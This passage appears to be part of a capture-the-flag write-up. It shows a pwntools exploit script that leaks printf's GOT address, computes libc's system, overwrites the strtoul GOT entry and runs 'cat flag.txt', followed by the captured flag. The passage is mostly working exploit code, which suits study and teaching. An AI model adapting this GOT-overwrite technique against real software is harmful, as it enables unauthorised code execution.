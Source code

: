 ```python
vp.sendline(p64(velf.got['printf']))
vp.sendline("")
sleep(1)
vp.clean()
vp.sendline("")


# with context.local(log_level='debug'):
vp.recvuntil("-")
log.debug(vp.recvline())
line = vp.readline()
assert "favorite" in line
line = vp.readline()
log.info(line)
log.info(hexdump(line))
x = line.find("1:") + 2
log.info(hexdump(line[x:].strip()))
y = line[x:].strip()
while len(y) != 8:
    y = y + "\x00"
printf_addr = u64(y)
log.info("got printf addr at: {}".format(hex(printf_addr)))

# vp.interactive()

vp.clean()
# vp.interactive()
# vp.close()

# system_addr = printf_addr - printf_to_pwn
system_addr = printf_addr - (libc.symbols['printf'] - libc.symbols['system'])

log.info("got system addr at: {}".format(hex(system_addr)))

vp.sendline("0")
vp.sendline("e")
vp.sendline(p64(velf.got['strtoul']))
vp.sendline("")
sleep(1)
vp.clean()
vp.sendline("")

vp.sendline("1")
vp.sendline("e")
# vp.sendline(p64(velf.plt['__stack_chk_fail']))
# vp.sendline(p64(0x004007a0))
vp.sendline(p64(system_addr))
#vp.sendline("sh")
vp.sendline("cat flag.txt")
vp.sendline("")


vp.clean_and_log()

vp.interactive()

vp.close()
```

This got us the flag:

```
hxp{5t0re_Y0uR_mu5iCz_2}
```

